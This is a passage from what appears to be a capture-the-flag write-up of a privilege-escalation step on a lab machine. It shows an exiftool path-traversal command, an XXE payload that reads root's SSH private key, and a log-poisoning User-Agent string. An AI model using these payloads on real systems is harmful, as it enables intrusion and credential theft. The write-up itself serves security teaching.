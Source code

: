 We note that `line` is a string passed to a function. We can poison it by adding an extra `||` to our user agent and then providing a URI.

So, now we have all the information to perform our plan:

1. We create a jpg with `Artist` tag setted up in metadata and putting it in home directory
2. We create a XXE exploit with `_creds.xml` at the end of name and putting it in home directory. We set author tag to `damian`
3. We navigate to any part of the website with modified `User-Agent` to trigger the application
4. We read our `*_creds.xml` file

We noted that ssh is running, so we are trying to read `/root/.ssh/id_rsa` file.

## Privilege escalation

Let’s start performing our plan to get root, we’ll get a random jpg and add the necessary details to it.

```zsh
exiftool -Artist='../home/woodenk/vflamie' root.jpg
```

Our XXE exploit will look like that:

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///root/.ssh/id_rsa"> ]>
<credits>
  <author>damian</author>
  <image>
    <uri>/../../../../../../../home/woodenk/root.jpg</uri>
    <hello>&ent;</hello>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>
```

We save this file as vflamie_creds.xml.

Then, we intercept our request to the page with BurpSuite and modifying User-Agent with this string:

```
||/../../../../../../../home/woodenk/root.jpg
```

Finally, we re-read our xml file:
